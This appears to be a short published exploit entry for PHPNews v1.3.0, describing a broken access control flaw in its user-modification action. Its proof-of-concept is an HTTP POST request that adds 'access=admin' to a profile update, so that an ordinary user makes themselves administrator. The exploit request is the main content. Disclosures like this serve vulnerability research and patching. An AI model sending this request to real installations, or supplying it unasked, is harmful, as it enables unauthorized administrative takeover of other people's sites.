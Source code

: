 # Exploit Title: PHPNews v1.3.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attackers to change his access type to admin(vertical privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /index.php?action=modifynewsposter3 HTTP/1.1
...
id=2&newusername=user1&username=user1&password=user1test&password2=user1test&email=user1%40test.com&language=en_GB&access=admin(ADD THIS)
```